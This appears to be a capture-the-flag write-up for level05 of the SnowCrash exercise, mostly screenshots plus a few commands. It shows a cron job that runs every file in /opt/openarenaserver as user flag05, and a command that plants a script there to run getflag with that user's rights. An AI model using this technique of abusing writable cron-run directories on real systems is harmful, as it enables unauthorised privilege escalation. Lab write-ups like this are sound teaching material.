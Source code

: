 ![image](https://github.com/user-attachments/assets/87ab7b93-e29c-4c7c-b8e9-cbdd9a9ad828)

`level05@SnowCrash:~$ find / -name mail 2>/dev/null`

![image](https://github.com/user-attachments/assets/517f1790-d4ca-4573-9c6b-2cd67210827d)

![image](https://github.com/user-attachments/assets/8fa938cc-70db-464a-9e2e-30cc4949b8de)

![image](https://github.com/user-attachments/assets/0fc7e992-9d27-4af9-85a1-0887a472aeec)

![image](https://github.com/user-attachments/assets/b292d9a3-f7c3-466a-8444-ef9119382e91)

`*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`

![image](https://github.com/user-attachments/assets/3fb1d7d0-947d-4781-a613-d2b851c505bf)

![image](https://github.com/user-attachments/assets/e7fa4a20-25c6-403f-a2cf-80ed8d4b9a4c)

```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
![image](https://github.com/user-attachments/assets/b87abe0b-a821-4aeb-8825-df6c51f46fdd)

![image](https://github.com/user-attachments/assets/3b8515a6-d804-49d6-9297-a6b91595bad1)

`level05@SnowCrash:/opt/openarenaserver$ echo "/bin/getflag > /tmp/test" > /opt/openarenaserver/test`

![image](https://github.com/user-attachments/assets/86d331f9-ec8a-41fa-87b3-868b45507df9)

![image](https://github.com/user-attachments/assets/bf7f7f7f-833a-4800-a8cd-6254228e1175)
